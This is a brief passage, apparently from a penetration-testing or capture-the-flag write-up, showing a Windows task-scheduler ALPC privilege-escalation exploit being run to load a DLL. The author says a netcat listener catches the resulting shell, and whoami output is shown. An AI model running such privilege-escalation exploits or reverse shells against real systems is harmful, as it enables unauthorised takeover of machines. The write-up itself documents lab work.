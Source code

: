 Now on running, it just hangs (as `nc` is listening), and I can connect:

```

C:\Users\dummy>\Users\Public\Desktop\ALPC-TaskSched-LPE.exe
[+] Loading DLL

```

```

C:\Users\REM>whoami
desktop-2c3iqho\0xdf

